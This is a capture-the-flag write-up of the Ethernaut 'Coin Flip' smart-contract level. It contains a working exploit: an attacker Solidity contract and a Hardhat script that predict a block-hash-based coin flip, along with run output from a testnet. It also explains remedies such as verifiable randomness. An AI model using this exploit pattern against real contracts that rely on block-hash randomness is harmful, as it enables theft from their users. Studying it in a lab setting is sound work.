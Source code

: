 ```yaml
---
title: Ethernaut \#03 Coin Flip
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Coin Flip challenge writeup
---
```


## Fallback

### Challenge

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

* See the Help page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

### Background

Randomness on the chain is not easy to achieve. When using techniques that are block dependent they can be easily manipulated.

### Attack

In order to solve this challenge we need to predict the value of `side` in the `flip` function. The value of `side` depends on `FACTOR` and `blockValue`. `FACTOR` is a constant and `blockValue` is a the hash of the previous block. So we only need to find the hash of the previous block in order to attack the random side generator. So we could precalculate the value using the current block hash and pay a high enough fee to make sure we are in the next block. But this method is expensive, and likely to fail. However, there is a much more reliable solution that will work 100% of the time. We can create a contract of our own, that will call the `flip` function in the `CoinFlip` contract. This contract will have all the information that the `CoinFlip` contract has and can thus know exactly the output of the computation.

* Deploy an attacker controlled contract that can calculate the result.
* Call it until the expected number is reached

#### CoinFlipSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';
import '../challenges/CoinFlip.sol';

contract CoinFlipSolve {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip coinFlipContract;

  constructor(address _coinFlipAddress) public {
    coinFlipContract = CoinFlip(_coinFlipAddress);
  }

  function flip() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    coinFlipContract.flip(side);
  }
}
```

#### coin-flip-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    coinFlipAddress = "0x8C4A7428681896BCE847d2ED9c60c6eEB95eFca1";
    contract = await ethers.getContractAt("CoinFlip", coinFlipAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    CoinFlipSolve = await ethers.getContractFactory("CoinFlipSolve");
    coinFlipSolve = await CoinFlipSolve.deploy(contract.address);
    await coinFlipSolve.deployed();

    console.log("Level address   : " + contract.address)
    console.log("Consecutive Wins  : " + await contract.consecutiveWins())
    console.log("Executing Attack")

    // predict flip until consecutive wins reached
    while (await contract.consecutiveWins() < 10) {
        tx = await coinFlipSolve.connect(account).flip()
        receipt = await tx.wait()
    }

    console.log("Finished Executing Attack")
    console.log("Consecutive Wins  : " + await contract.consecutiveWins())    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/coin-flip-solve.js --network rinkeby
Level address   : 0x8C4A7428681896BCE847d2ED9c60c6eEB95eFca1
Consecutive Wins  : 1
Executing Attack
Finished Executing Attack
Consecutive Wins  : 10
```

### Success Message

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).
